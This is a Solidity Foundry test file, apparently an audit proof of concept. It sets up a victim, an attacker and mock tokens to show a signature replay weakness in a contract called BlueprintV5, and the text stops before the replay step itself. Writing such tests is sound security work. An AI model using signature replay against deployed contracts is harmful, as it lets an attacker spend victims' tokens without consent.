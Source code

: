 ```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity ^0.8.26;

import "forge-std/Test.sol";
import "../src/BlueprintV5.sol";
import {MockERC20} from "./MockERC20.sol";

contract SignatureReplayTest is Test {
    BlueprintV5 public blueprint;
    MockERC20 public mockToken;
    address public victim;
    address public attacker;
    uint256 private victimPrivateKey;

    function setUp() public {
        // Deploy contracts
        blueprint = new BlueprintV5();
        blueprint.initialize();
        mockToken = new MockERC20();

        // Setup victim with private key
        victimPrivateKey = 0xA11CE;
        victim = vm.addr(victimPrivateKey);

        // Setup attacker
        attacker = address(0xBEEF);

        // Fund victim with tokens
        mockToken.mint(victim, 1000 * 10 ** 18);

        // Setup blueprint
        blueprint.setFeeCollectionWalletAddress(address(this));
        blueprint.addPaymentAddress(address(mockToken));
        blueprint.setCreateAgentTokenCost(address(mockToken), 100 * 10 ** 18);

        // Approve tokens from victim to blueprint
        vm.prank(victim);
        mockToken.approve(address(blueprint), type(uint256).max);
    }

    function testSignatureReplay() public {
        // The victim signs a message for a legitimate transaction
        string memory base64Proposal = "legitimate proposal";
        string memory serverURL = "http://example.com";

        // Important: The victim signs a message with a specific projectId
        bytes32 originalProjectId = bytes32(uint256(1));

        // Generate signature from victim for the original projectId
        bytes32 digest = blueprint.getRequestDeploymentDigest(
            originalProjectId,
            base64Proposal,
            serverURL
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(victimPrivateKey, digest);
        bytes memory signature = abi.encodePacked(r, s, v);

        // Initial balance check
        uint256 initialBalance = mockToken.balanceOf(victim);
        assertEq(
            initialBalance,
            1000 * 10 ** 18,
            "Initial balance should be 1000 tokens"
```